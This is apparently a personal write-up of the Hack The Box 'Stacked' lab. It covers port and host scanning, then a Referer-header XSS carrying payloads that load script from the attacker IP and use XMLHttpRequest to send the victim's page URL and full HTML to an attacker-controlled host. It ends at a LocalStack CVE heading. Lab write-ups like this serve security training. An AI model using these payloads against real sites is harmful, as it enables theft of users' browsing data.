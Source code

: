 ```yaml
---
title: htb stacked
author: Yuchao
date: 2022-03-29 11:33:00 +0800
categories: [sec]
tags: [htb, aws, localstack]
math: true
mermaid: true
---
```


## recon

#### nmap
```
nmap -p- --min-rate 10000 -oA scans/nmap-alltcp 10.10.11.112
nmap -p 22,80,2376 -sCV -oA scans/nmap-tcpscripts 10.10.11.112
```
- 22/tcp   open  ssh; 80/tcp   open  http; 2376/tcp open  docker

#### feroxbuster, directory discovery
``` feroxbuster -u http://stacked.htb ```

#### wfuzz, host discovery
``` wfuzz -H "Host: FUZZ.stacked.htb" -u http://stacked.htb -w /usr/seclists/Discovery/DNS/subdomains-top1million-20000.txt --hw 26```
- hide word length 26 responses
- find host: portfolio.stacked.htb - TCP 80
- a local stack development page.
- <https://github.com/localstack/localstack>
- serverless: run services often used for Serverless apps (iam, lambda, dynamodb, apigateway, s3, sns)

## XSS

#### recon for XSS
- input area, and interesting headers.
- add payload as ``` <img src="http://{attackerIP}/fieldname_or_header_name"> ``` in different places.
- send the request.
attacker machine
``` sudo python3 -m http.server 80 ```
- 80 as we did not specify port in set payload
- wait a while
- ``` "GET /referer HTTP/1.1" 404 - ```
- so the ONLY field vulnerable to XSS is: Header -> referer.
- - run ``` date ``` two times, culculate the XSS victim(background cron) activity interval.
- interesting material below.
- <https://www.horizon3.ai/unauthenticated-xss-to-remote-code-execution-chain-in-mautic-3-2-4/>

#### find out what the URL the victim is looking at.

Method 1:
```javascript 
<script src="http://10.10.14.6/xss.js"></script> 
```
- in the victim`s referer, we can see the response is from: "/read-mail.php?id=5"

Method 2: (better)
```javascript
var exfilreq = new XMLHttpRequest();    
exfilreq.open("GET", "http://{attackerIP}/" + document.location, false);    
exfilreq.send(); 
```
- set above script as payload
- when we nc at 80, can see the victim`s current page appended.
- in nc, we get "GET /http://mail.stacked.htb/read-mail.php?id=2 HTTP/1.1"
- For victim visited "http://{attackerIP}/http://mail.stacked.htb/read-mail.php?id=2"

We can even see content the victim is browsing by
```javascript
var exfilreq = new XMLHttpRequest();    
exfilreq.open("POST", "http://{attackerIP}:9001/", false);    
exfilreq.send(document.documentElement.outerHTML); 
```
- then we can open the text in browser, except some CSS or image can not be shown.

## LocalStack vulnerability

#### CVE-2021-32090 
